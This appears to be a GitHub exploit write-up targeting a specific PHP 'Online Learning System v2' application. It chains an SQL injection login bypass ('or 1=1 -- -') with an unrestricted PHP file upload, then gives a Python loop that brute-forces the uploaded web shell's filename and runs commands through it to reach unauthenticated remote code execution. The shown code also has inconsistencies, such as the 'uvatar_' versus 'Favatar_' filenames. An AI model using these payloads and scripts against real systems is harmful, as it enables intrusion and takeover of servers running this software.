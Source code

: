 # online-learning-system-v2-sqli-authentication-bypass-file-upload-unauthenticated-RCE
* Exploit title : online-learning-system-v2-sqli-authentication-bypass-file-upload-unauthenticated-RCE
* Vendor Homepage : https://github.com/oretnom23  / https://www.sourcecodester.com/php/14929/online-learning-system-v2-using-php-free-source-code.html
* Software Link : https://www.sourcecodester.com/sites/default/files/download/oretnom23/elearning_v2_0.zip
## Sql injection authentication bypass
* the attacker can bypass admin login from by submitting sql qurey in the username paramater : 
* before the injection
```php
	public function login(){
		extract($_POST);

		$qry = $this->conn->query("SELECT * from users where username = '$username' and password = md5('$password') ");
		if($qry->num_rows > 0){
			foreach($qry->fetch_array() as $k => $v){
				if(!is_numeric($k) && $k != 'password'){
					$this->settings->set_userdata($k,$v);
				}
```
* after the injection
```php
	public function login(){
		extract($_POST);

		$qry = $this->conn->query("SELECT * from users where username = '$username'' or 1=1 -- -' and password = md5('$password') ");
		if($qry->num_rows > 0){
			foreach($qry->fetch_array() as $k => $v){
				if(!is_numeric($k) && $k != 'password'){
					$this->settings->set_userdata($k,$v);
				}
```
it doesn't matter if username supplied is exsists or not the most important thing is the booleon injection (or 1=1) it will return true and let us login without supllying password
everything after this qurey (or 1=1 -- -) will be ignored bc of the comment (-- -)
## file upload
```php
		$save = $this->conn->query($sql);
		if($save){
			if(isset($_FILES['img']) && $_FILES['img']['tmp_name'] != ''){
					$ext = explode('.', $_FILES['img']['name']);
					$fname = 'uploads/uvatar_'.$id.'.'.$ext[1];
					if(is_file('../'.$fname))
						unlink('../'.$fname);
					$move = move_uploaded_file($_FILES['img']['tmp_name'],'../'. $fname);
					if($move){
						$this->conn->query("UPDATE students set avatar = '$fname' where id = $id ");
					}
			}
			$this->settings->set_flashdata('success'," Subject Successfully saved.");
			return 1;
```
* as you see the php code above there is no extenction validation or mime type or magic byte validation you can upload your php malicious directly
* also the script upload your php file to this directory /uploads/ and rename it to 'Favatar_' + the id  + extenction 
```php
$fname = 'uploads/uvatar_'.$id.'.'.$ext[1];
```
* i made simple for loop to bruteforce the id check the python script above
```python
		for i in range(0,rangee):
			try:
				with requests.get(url + "/uploads/Favatar_" + str(i) + ".php?cmd=whoami",allow_redirects=False) as response3:
					if "nikmok" in response3.text and response3.status_code == 200:
						print("\n" + Fore.GREEN + "[+] shell found : " + response3.url +"\n")
						break
						with open("shell.txt",mode="w+") as writer:
							writer.write(response3.url)
					else:
						print( Fore.RED + "[-] shell not found : " + response3.url)
			except requests.HTTPError as exception2:
				print("[-] HTTP Error : {0} ".format(exception2))
```

